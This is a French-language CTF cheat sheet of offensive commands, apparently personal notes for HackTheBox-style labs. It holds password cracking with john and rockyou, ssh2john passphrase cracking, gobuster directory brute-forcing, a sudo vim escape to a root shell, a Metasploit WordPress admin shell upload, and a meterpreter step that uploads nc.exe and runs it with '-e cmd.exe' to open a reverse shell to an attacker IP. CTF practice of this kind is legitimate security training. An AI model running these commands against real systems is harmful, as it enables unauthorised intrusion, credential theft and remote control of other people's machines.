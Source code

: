 # Astuces et mémos CTF

Liste de mots de passe dans Kali situés dans /usr/share/wordlist/. Exemple d'utilisation avec john
```
john cisco.txt --wordlist=/usr/share/wordlist/rockyou.txt
```

Liste de répertoires web à tester pour trouver des fichiers et répertoires avec Dirbuster ou Gobuster : **/usr/share/wordlist/dirb/** ou **/usr/share/wordlist/dirbuster/**.  Exemple : ```./gobuster dir -u http://10.10.10.29/ -w /usr/share/wordlists/dirb/common.txt```.

Passer à un shell BASH
```
SHELL=/bin/bash script -q /dev/null
```

Afficher les commandes exécutables en sudo
```
sudo -l
```

Escalation de privilège depuis Vi/Vim
```
sudo /file/file.conf
:!/bin/bash
```

En cas d'accès à un wp-admin, possibilité de faire un reverse shell avec Metasploit :
```
msfconsole
msf > use exploit/unix/webapp/wp_admin_shell_upload
msf > set PASSWORD P@s5w0rd!
msf > set USERNAME admin
msf > set TARGETURI /wordpress
msf > set RHOSTS 10.10.10.29
msf > run
```

Puis avoir un shell propre :
```
meterpreter> lcd /home/username/Downloads
meterpreter> cd C:/inetpub/wwwroot/wordpress/wp-content/uploads
meterpreter > upload /usr/share/windows-binaries/nc.exe
```

En même temps, ouvrir un listener netcat dans un autre terminal : ```nc -lnvp 1234```.
```
meterpreter> execute -f nc.exe -a "-e cmd.exe 10.10.14.2 1234"
```

Un shell est accessible depuis le listener Netcat.

John :
touver passphrase à partir de clé privée :
1 : créer un hash de la clé avec john
sudo /usr/share/john/ssh2john.py joanna_rsa > joanna_rsa.hash

2 : brute forcer
john --wordlist=/usr/share/wordlists/rockyou.txt joanna_rsa.hash

Premières erreurs :

serveur web :
ne pas avoir lu main.php qui disait un cat /id.rsa pour le password